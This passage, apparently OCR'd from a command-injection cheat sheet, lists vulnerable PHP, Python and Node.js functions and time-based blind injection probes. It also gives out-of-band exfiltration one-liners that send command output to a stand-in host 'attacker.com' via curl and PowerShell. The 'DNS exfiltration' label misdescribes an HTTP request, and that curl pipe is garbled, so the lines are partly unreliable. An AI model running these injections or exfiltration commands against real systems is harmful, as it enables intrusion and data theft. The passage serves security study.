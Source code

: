 ## Special Techniques for Specific Environments

### PHP Command Injection

```php
// Common vulnerable PHP functions
system($_GET['cmd']);
exec($_GET['cmd']);
shell_exec($_GET['cmd']);
passthru($_GET['cmd']);
`$_GET['cmd']`;  // Backtick operator
```

### Python Command Injection

```python
# Vulnerable Python code
import os
os.system(user_input)  # Vulnerable
eval(user_input)       # Vulnerable
__import__('os').system('whoami')  # Obfuscated execution
```

### Node.js Command Injection

```javascript
// Vulnerable Node.js functions
child_process.exec(userInput);
child_process.execSync(userInput);
child_process.spawn(userInput);
```

## Blind Command Injection Techniques

### Time-Based Verification

```bash
# Linux time-based
ping -c 10 127.0.0.1  # Creates a 10-second delay
sleep 5  # 5-second delay

# Windows time-based
ping -n 10 127.0.0.1  # Creates a 10-second delay
timeout 5  # 5-second delay
```

### Out-of-Band Data Exfiltration

```bash
# DNS exfiltration (Linux)
whoami | curl http://attacker.com/$(base64)

# HTTP exfiltration (Windows)
powershell -c "Invoke-WebRequest -Uri ('http://attacker.com/'+[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((whoami))))"
```
